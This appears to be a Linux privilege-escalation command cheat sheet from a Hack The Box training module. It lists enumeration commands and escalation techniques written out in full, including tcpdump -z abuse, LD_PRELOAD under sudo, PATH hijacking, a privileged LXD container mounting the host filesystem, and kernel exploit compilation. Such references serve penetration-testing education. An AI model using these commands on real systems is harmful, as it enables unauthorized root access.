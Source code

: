 The cheat sheet is a useful command reference for this module.

|**Command**|**Description**|
|---|---|
|`ssh htb-student@<target IP>`|SSH to lab target|
|`ps aux \| grep root`|See processes running as root|
|`ps au`|See logged in users|
|`ls /home`|View user home directories|
|`ls -l ~/.ssh`|Check for SSH keys for current user|
|`history`|Check the current user's Bash history|
|`sudo -l`|Can the user run anything as another user?|
|`ls -la /etc/cron.daily`|Check for daily Cron jobs|
|`lsblk`|Check for unmounted file systems/drives|
|`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`|Find world-writeable directories|
|`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`|Find world-writeable files|
|`uname -a`|Check the Kernel versiion|
|`cat /etc/lsb-release`|Check the OS version|
|`gcc kernel_expoit.c -o kernel_expoit`|Compile an exploit written in C|
|`screen -v`|Check the installed version of `Screen`|
|`./pspy64 -pf -i 1000`|View running processes with `pspy`|
|`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`|Find binaries with the SUID bit set|
|`find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`|Find binaries with the SETGID bit set|
|`sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`|Priv esc with `tcpdump`|
|`echo $PATH`|Check the current user's PATH variable contents|
|`PATH=.:${PATH}`|Add a `.` to the beginning of the current user's PATH|
|`find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`|Search for config files|
|`ldd /bin/ls`|View the shared objects required by a binary|
|`sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`|Escalate privileges using `LD_PRELOAD`|
|`readelf -d payroll \| grep PATH`|Check the RUNPATH of a binary|
|`gcc src.c -fPIC -shared -o /development/libshared.so`|Compiled a shared libary|
|`lxd init`|Start the LXD initialization process|
|`lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`|Import a local image|
|`lxc init alpine r00t -c security.privileged=true`|Start a privileged LXD container|
|`lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`|Mount the host file system in a container|
|`lxc start r00t`|Start the container|
|`showmount -e 10.129.2.12`|Show the NFS export list|
|`sudo mount -t nfs 10.129.2.12:/tmp /mnt`|Mount an NFS share locally|
|`tmux -S /shareds new -s debugsess`|Created a shared `tmux` session socket|
|`./lynis audit system`|Perform a system audit with `Lynis`|